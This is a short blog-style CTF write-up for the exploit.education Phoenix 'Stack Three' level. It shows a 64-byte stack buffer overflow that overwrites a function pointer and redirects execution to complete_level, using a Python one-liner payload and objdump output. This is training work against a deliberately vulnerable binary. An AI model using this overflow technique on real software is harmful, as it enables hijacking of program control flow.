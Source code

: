 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x3"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Stack Three](https://exploit.education/phoenix/stack-three/)

<!--more-->

This is again very similar, but this time we are overwriting a function pointer via
stdin.

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer @ 0x41414141
Segmentation fault
```

The buffer is again 64 bytes large. Thus we can precisely target the function pointer value.
Where do we want to jump instead? Looking at the symbols we can see a function called `complete_level`:

```bash
objdump -t stack-three
08048535 g     F .text  00000020 complete_level
```

Since we have no memory protection, let's just jump there

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "\x08\x04\x85\x35"[::-1]' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x8048535
Congratulations, you've finished phoenix/stack-three :-) Well done!ongratulations, you've finished phoenix/stack-three :-) Well done!

```

Don't forget the little endianness ;)
